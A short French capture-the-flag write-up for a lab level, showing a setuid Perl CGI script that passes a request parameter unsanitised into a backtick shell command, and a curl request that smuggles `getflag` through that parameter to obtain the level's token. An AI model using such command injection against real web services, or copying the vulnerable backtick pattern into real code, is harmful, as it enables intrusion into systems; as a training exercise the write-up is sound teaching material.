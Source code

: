 ﻿```bash
$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Tiens donc... encore un fichier avec le s-bit. On va l'examiner.

```bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce script perl est execute lors d'une requete HTTP sur le port 4747. Il prend un parametre `x` et l'execute avec la commande `echo`. On peut donc injecter des commandes systeme dans le parametre `x`.

```bash
$ curl 'localhost:4747/level04.pl?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Magnifique! On a le flag!